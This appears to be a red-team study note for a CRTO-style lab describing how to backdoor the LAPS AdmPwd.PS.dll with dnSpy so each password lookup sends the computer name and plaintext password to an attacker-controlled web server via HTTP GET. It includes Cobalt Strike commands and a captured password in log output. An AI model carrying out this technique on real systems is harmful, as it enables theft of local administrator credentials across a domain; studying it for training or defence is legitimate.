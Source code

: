 
#### 🖊️ Obtain a copy of passwords

We can try backdooring the LAPS tooling to get our hands in a copy of the passwords.

Requirements:
- ``Get-AdmPwdPassword`` installed on the machine

###### 📔 via Cobalt Strike

1) Check if the LAPS PowerShell modules can be found

```
beacon> ls
[*] Listing: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/16/2022 13:04:13   en-US
 24kb     fil     05/05/2021 12:04:14   AdmPwd.PS.dll
 5kb      fil     04/28/2021 18:56:38   AdmPwd.PS.format.ps1xml
 4kb      fil     04/28/2021 18:56:38   AdmPwd.PS.psd1
 26kb     fil     05/05/2021 12:04:14   AdmPwd.Utils.dll
```

2) Since PowerShell heavily utilises the .NET Framework, the DLLs here are written in C# which makes them fairly trivial to download, modify and re-upload.  Download `AdmPwd.PS.dll` and `AdmPwd.Utils.dll`, sync them to your attacking machine and open AdmPwd.PS.dll with dnSpy.  Use the Assembly Explorer to drill down into the DLL, namespaces and classes until you find the `GetPassword` method.

![[dnspy.png]]

3) This method calls `DirectoryUtils.GetPasswordInfo` which returns a `PasswordInfo` object.  You can click on the name and dnSpy will take you to the class definition.  It contains properties for `ComputerName`, `DistinguishedName`, `Password` and `ExpirationTimestamp`.  The password is simply the plaintext password that is shown to the admin.

Let's modify the code to send the plaintext passwords to us over an HTTP GET request.

⚠ This is obviously an irresponsible method to use in the real world, because the plaintext password is being sent unencrypted over the wire.  This is just an example.

4) Go back to the GetPassword method, right-click somewhere in the main window and select _Edit Method_.  The first thing we need to do is add a new assembly reference, using the little button at the bottom of the edit window.

![[add-reference.png]]

5) Use the search box to find and add `System.Net`. 
This code will simply instantiate a new `WebClient` and call the `DownloadString` method, passing the computer name and password in the URI.

![[backdoor.png]]

6) Once the modifications are in place, click the _Compile_ button in the bottom-right of the edit window.  Then select _File > Save Module_ to write the changes to disk.  Upload the DLL back to the target to overwrite the existing file.
7) One downside to this tactic is that it will break the digital signature of the DLL, but it will not prevent PowerShell from using it.

`beacon> powershell Get-AuthenticodeSignature *.dll`

8) Grab the LAPS password for a computer.

```
PS C:\Users\nlamb> Get-AdmPwdPassword -ComputerName sql-2 | fl

ComputerName        : SQL-2
DistinguishedName   : CN=SQL-2,OU=SQL Servers,OU=Servers,DC=dev,DC=cyberbotic,DC=io
Password            : VloWch1sc5Hl40
ExpirationTimestamp : 9/17/2022 12:46:28 PM
```

10) You should see a corresponding hit in your CS weblog.

```
09/14 11:49:32 visit (port 80) from: 10.10.122.254
	Request: GET /
	Response: 404 Not Found
	null
	= Form Data=
	computer   = SQL-2
	pass       = VloWch1sc5Hl40
```


#### ⚠ Opsec




### Properties
---
📆 created   {{28-02-2024}} 09:42
🏷️ tags: #redteam #crto 

---

